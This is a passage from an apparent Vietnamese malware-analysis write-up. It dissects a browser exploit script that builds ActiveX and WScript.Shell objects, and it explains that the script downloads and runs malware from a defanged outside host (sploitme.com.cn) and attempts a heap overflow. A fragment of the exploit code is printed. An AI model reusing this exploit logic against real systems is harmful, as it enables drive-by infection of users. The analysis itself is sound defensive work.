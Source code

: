 ```javascript
                    try {
                        objspread.Evaluate(e[i]);
                    } catch (e) {}
                }
            }\
            nwindow.status = e[3] + "";
            for (j = 0; j < 10; j++) {
                try {
                    objspread.msDataSourceObject(e[3]);
                } catch (e) {}
            }
        } catch (e) {}
    }Complete();
}mdac();
```

Đoạn code bắt đầu thực thi với function `mdac()`:
- Nó sẽ tạo một `object` HTML tag hoặc tạo một `ActiveXObject` với mỗi UUID trong array. 
- Sau đó, nó thực hiện tạo một object khác với tên là `WScript.Shell`.
- Nếu thành công, hàm `Go()` sẽ thực hiện download malware file từ `http://sploitme[.]com[.]cn/fg/load.php?e=1`, sau đó thực thi chúng thông qua `ActiveXObject`. 
- Tiếp theo, hàm `CheckIP()` được gọi, có vẻ như là để lấy IP của victim. Nếu thành công thì chuyển hướng browser đến `about:blank`.
- Cuối cùng thì hàm `aolwinamp()` sẽ thực thi, hàm thực thi khá là khó hiểu, nên em đã tự search tên hàm này trên mạng, và kết quả theo `https://fuzzysecurity.com/tutorials/expDev/8.html`, thì đây là một dạng tấn công `Heap Overflow`

Bây giờ, em sẽ phân tích file được download từ `http://sploitme[.]com[.]cn/fg/load.php?e=1`

![alt text](./img/image12.png)

Extract malware file bằng WireShark, và sử dụng tool `Scdbg` để xem luồng thực thi của nó.
